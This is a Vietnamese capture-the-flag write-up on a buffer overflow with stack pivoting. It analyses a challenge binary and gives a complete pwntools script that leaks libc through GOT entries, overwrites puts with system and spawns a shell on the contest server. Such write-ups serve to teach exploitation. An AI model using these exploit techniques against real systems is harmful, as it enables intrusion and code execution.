 # BOF + stack pivoting

Kiểm tra các chế độ bảo vệ của chương trình ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/236665571-90cbf9a4-7b0c-493a-8db5-3ccf9a857d21.png)

PIE và RELRO tắt thì nghĩ ngay là tấn công GOT thôi, CANARY cũng tắt sẽ dễ dàng hơn cho việc khai thác.

Kiểm tra luồng thực thi của chương trình qua IDA ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236665635-a51f60ea-a6d4-4926-95eb-7b6a182f7203.png)

Hàm vuln được thực hiện lại liên tục khi nó đặt trong vòng while_loop.
kiểm tra hàm vuln() ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236665716-f0bd6942-82f2-451f-852a-3e359c5494a1.png)

Ở đây ta thấy nó cho ta ghi tận 72 bytes vô buf[64] vậy là dư 8 byte ==> chỉ đủ để overwrite saved rbp của vuln, và sau khi hàm vuln trả về hàm main và tiếp tục thực thi câu lệnh kế ==> ta có thể thay đổi được rbp của main.
Nhưng thay đổi được rồi thì làm gì tiếp. đoạn này nếu xem pseuđôce thôi sẽ không thấy ta hãy sang phân tích mã assembly:

![image](https://user-images.githubusercontent.com/93699926/236665846-9496fbd8-205b-4788-9434-2837ec34f47e.png)

Ta thấy sau khi gọi hàm vuln nó sẽ thực hiện đoạn code sau :

```assembly
; lúc này sau khi vừa thực thi hàm vuln thì rax sẽ chứa địa chỉ của chuỗi ta vừa nhập ở hàm vuln
; RAX: 0x12345678 -> "AAAAAA..."
mov     rcx, [rax]        ;  nó sẽ lưu 8byte đầu vô rcx=> rcx="AAAAAAAA"
mov     rbx, [rax+8]      ; rbx="AAAAAAAA" 8 byte tiếp theo
mov     [rbp+var_50], rcx ; nó sẽ lưu RBP +offset var_50
mov     [rbp+var_48], rbx; nó sẽ lưu RBP +offset var_48
mov     rcx, [rax+10h] 
mov     rbx, [rax+18h]
mov     [rbp+var_40], rcx
mov     [rbp+var_38], rbx
mov     rcx, [rax+20h]
mov     rbx, [rax+28h]
mov     [rbp+var_30], rcx
mov     [rbp+var_28], rbx
mov     rdx, [rax+38h]     ; đến đây giống như ở trên thì ta có thể hiểu là nó sẽ coppy 0x40 bytes input của ta vô RBP+var_50
mov     rax, [rax+30h]
mov     [rbp+var_20], rax
mov     [rbp+var_18], rdx
```

kiểm tra stack của main ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236666165-4de06a6a-c3af-47ae-9693-8dbe21c53cb9.png)

cái giá biến var_50 sẽ mang giá trị là -0x50

Hiểu được luồng thực thi của chương trình thì ta sẽ có hướng khai thác như sau :
# PLAN
Step1: ta sẽ ghi đè biến global message với địa chỉ GOT của hàm nào đó để khi chương trình puts message ta sẽ leak được địa chỉ libc
Step2: ghi đè message với địa chỉ của chuỗi /bin/sh đã khi đã leak được libc
Step3: over write GOT của PUTS thành System

full script in p.py
```python
from pwn import *
context.binary=exe=ELF("./chall_patched",checksec=False)
libc=ELF("./libc.so.6",checksec=False)

#p=process(exe.path)
p=remote("junior-pwner.bsides.shellmates.club",443,ssl=True)
def GDB():
        gdb.attach(p,gdbscript=
                '''
                b*0x0000000000401311
                b*0x0000000000401327
                c
                '''
                )
        input()



#GDB()
rw_section=0x404a00
payload=b"A"*0x10
payload=flat(
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        )
payload+=p64(exe.sym['messages']+0x30)
p.sendafter(b"Your Name:",payload)



leak=int.from_bytes(p.recvuntil(b"Your Name:",drop=True).split(b"\n")[1],"little")
log.info('[+]leak:'+hex(leak))
libc.address=leak-0x80ed0
log.info('[+]libc base:'+hex(libc.address))
log.info('[+]system:'+hex(libc.sym['system']))
payload=flat(
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        )
payload+=p64(exe.sym['messages']+0x30)
p.send(payload)

print('[+]over writing puts got')
payload=flat(
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        )
payload+=p64(exe.got['rand'])
p.sendafter(b"Your Name:",payload)

p.interactive()
```
 
Chạy chương trình trên sever ta có flag :

![image](https://user-images.githubusercontent.com/93699926/236666441-66557853-3ebe-41a0-9cf0-e3d4520597c9.png)


